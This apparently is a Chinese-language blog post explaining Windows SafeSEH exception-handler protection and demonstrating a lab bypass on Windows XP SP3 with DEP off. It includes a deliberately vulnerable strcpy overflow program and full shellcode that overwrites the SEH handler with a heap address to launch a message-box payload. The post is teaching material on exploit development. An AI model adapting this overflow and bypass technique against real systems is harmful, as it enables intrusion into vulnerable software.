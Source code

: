 ```yaml
---
layout: post
title: "使用堆绕过SafeSEH机制"
author: "kumqu"
---
```


## SafeSEH 对异常处理的保护原理

​	在`Windows XP SP2` 及后续的操作系统中, 微软引入了`SEH`校验机制`SafeSEH`.`SafeSEH`的原理如下: 在程序调用异常处理函数前, 对要调用的异常处理函数进行一系列的有效性校验, 当发现异常处理函数不可靠时将终止异常处理函数的调用.

​	在`VS 2003`及后续的版本中, 链接选项中的`/SafeSEH`选项是默认启用的, 这可以让编译好的程序具备`SafeSEH`功能. 启用该选项后, 编译器在编译程序的时候将程序所有的异常处理函数地址提取出来, 编入一张安全`SEH`表, 并将这张表放到程序的映像里面. 当程序调用异常处理函数的时候会将函数地址与安全`SEH`表进行匹配, 检查调用的异常处理函数是否位于安全`SEH`表中. 在`VS`命令提示行, 执行`dumpbin /loadconfig filename`可以查看程序安全`SEH`表的情况, 如下图所示: 

<img src="https://github.com/kumqu/kumqu.github.io/_image/2019-08-02/1.PNG" alt="1" style="zoom:75%;" />

​	`SafeSEH`机制首先调用了`RtlDispatchException()`函数判断: 异常处理链是否位于当前程序栈中; 异常处理指针是否指向当前程序栈中. 若不通过都将终止异常处理函数的调用. 之后调用`RtlIsValidHandler()`函数, 其伪代码如下:

```
BOOL RtlIsValidHandler( handler )
{
    if (handler is in the loaded image)      // 在加载模块的内存空间内
    {
        if (image has set the IMAGE_DLLCHARACTERISTICS_NO_SEH flag)
            return FALSE;                    // 程序设置了忽略异常处理
        if (image has a SafeSEH table)       // 含有 SafeSEH 表说明程序启用了 SafeSEH
            if (handler found in the table)  // 异常处理函数地址在表中
                return TRUE;
            else
                return FALSE;
        if (image is a .NET assembly with the ILonly flag set)
            return FALSE;                    // 包含 IL 标志的 .NET 中间语言程序
    }

    if (handler is on non-executable page)   // 在不可执行页上
    {
        if (ExecuteDispatchEnable bit set in the process flags)
            return TRUE;                     // DEP 关闭
        else
            raise ACCESS_VIOLATION;          // 访问违例异常
    }

    if (handler is not in an image)          // 在可执行页上，但在加载模块之外
    {
        if (ImageDispatchEnable bit set in the process flags)
            return TRUE;                     // 允许加载模块内存空间外执行
        else
            return FALSE;
    }
    return TRUE;                             // 允许执行异常处理函数
}


```

​	根据上述流程, 运行异常处理函数执行的情况如下: 

* 异常处理函数在加载模块外, `DEP`关闭
* 异常处理函数在加载模块内, 相应模块未启用`SafeSEH`(安全`SEH`表为空)且不是纯`IL`
* 异常处理函数在加载模块内, 相应模块启用`SafeSEH`, 异常处理函数地址包含在安全`SEH`表中

​    因此, 绕过`SafeSEH`机制有如下方法:

* 覆盖函数返回地址. 若攻击对象启用了 `SafeSEH` 但是 没有启用 `GS` 或者存在未受` GS `保护的函数
* 利用虚函数表来绕过 `SafeSEH`
* 将 `shellcode` 部署在堆中以绕过 `SafeSEH`
* 利用未启用 `SafeSEH` 的模块绕过 `SafeSEH`
* `DEP` 关闭时，可以利用加载模块之外的地址作为跳板绕过`SafeSEH`

## 从堆中绕过 SafeSEH

​	 实验环境如下:

|   操作系统   |      `Windows XP SP3`       |
| :----------: | :-------------------------: |
|  **编译器**  |  **`Visual Studio 2008`**   |
| **编译选项** | **`DEP`关闭, 禁用优化选项** |

​	`POC`代码如下, 含义是用`shellcode`在堆中的起始地址覆盖异常处理函数地址, 然后通过除0异常调用异常处理函数: 

```
#include <stdlib.h>
#include <string.h>

char shellcode[] = "\x90...";

void test(char *input)
{
	char str[200];
	strcpy(str, input);
	int zero = 0;
	zero = 1 / zero;
}

void main()
{
	char *buf = (char *)malloc(500);
	strcpy(buf, shellcode);
	test(shellcode);
}
```

​	使用`OllyDbg`运行编译好的程序, 执行到程序中断在完成申请堆中空间的位置, 如下图所示, 寄存器`EAX`中存放着申请空间的首地址, 即地址`003907A8`是`shellcode`的首地址:

![2](https://github.com/kumqu/kumqu.github.io/_image/2019-08-02/2.PNG)

​	然后执行到`test`函数的`strcpy`完成后, 填充的`0x90`标识出了字符串的起始地址, 即地址`0x0012FE5C`是溢出字符串的起始地址, 如下图所示:

![3](https://github.com/kumqu/kumqu.github.io/_image/2019-08-02/3.PNG)

​	打开`SEH`链视图,  `SEH`异常处理函数指针位于`0x0012FFB0+4`的位置(`0x0012FFB0`为指向下一个`SEH`的链表指针, `0x0012FFB4`才是异常回调函数句柄), 如下图所示:

![4](https://github.com/kumqu/kumqu.github.io/_image/2019-08-02/4.PNG)

​	因为 `0x0012FFB4 - 0x0012FE5C = 344字节`, 所以缓冲区起始地址与异常回调函数句柄之间有344字节间隙. 使用的`shellcode`布局为: 168个字节的弹出对话框的机器码; 176字节的填充`\x90`; 4字节使用`003907A8`缓冲区地址填充, 用于更改异常回调函数的句柄. 修改好的`shellcode`如下:

```
char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xA8\x07\x39\x00"//address of shellcode in heap
;
```

​	重新编译程序, 在程序`0x003907A8`位置设置断点, `F9`运行程序到上述断点处中断. 由此可知, 已经成功绕过`SafeSEH`机制转入`shellcode`运行了. 继续运行程序, 执行`shellcode`显示弹窗, 如下图所示:

<img src="https://github.com/kumqu/kumqu.github.io/_image/2019-08-02/5.PNG" alt="5" style="zoom:80%;" />

​	最终, 成功实现了从堆中绕过 `SafeSEH`机制.

